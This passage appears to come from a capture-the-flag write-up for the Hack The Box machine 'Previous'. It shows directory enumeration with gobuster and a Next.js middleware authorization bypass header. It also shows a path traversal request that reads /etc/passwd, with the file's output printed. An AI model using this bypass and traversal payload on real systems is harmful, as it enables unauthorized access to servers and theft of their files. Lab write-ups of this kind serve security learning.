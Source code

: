 We use `gobuster` to enumerate directories on the web server:

```bash
gobuster dir -u http://previous.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```
```
/docs                 (Status: 307) [Size: 36] [--> /api/auth/signin?callbackUrl=%2Fdocs]
/api                  (Status: 307) [Size: 35] [--> /api/auth/signin?callbackUrl=%2Fapi]
/signin               (Status: 200) [Size: 3481]
/docsis               (Status: 307) [Size: 38] [--> /api/auth/signin?callbackUrl=%2Fdocsis]
/apis                 (Status: 307) [Size: 36] [--> /api/auth/signin?callbackUrl=%2Fapis]
```

We find a article that discusses an [authorization bypass vulnerability](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/). This vulnerability allows an attacker to get through the authentication process without any credentials and access sensitive files.

We have to add the following header to all requests which require authentication:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

If we navigate to `http://previous.htb/docs/examples`, we find a link to download a file. We can modify the request to download the `/etc/passwd` file:
```bash
GET /api/download?example=../../../../../../../etc/passwd HTTP/1.1
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
Host: previous.htb
```
```
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```

We download the `./app/.next/routes-manifest.json` file to get more information about the application routes:
```
  dynamicRoutes": [
    {
      "page": "/api/auth/[...nextauth]",
      "regex": "^/api/auth/(.+?)(?:/)?$",
      "routeKeys": {
        "nxtPnextauth": "nxtPnextauth"
      },
      "namedRegex": "^/api/auth/(?<nxtPnextauth>.+?)(?:/)?$"
    },
```
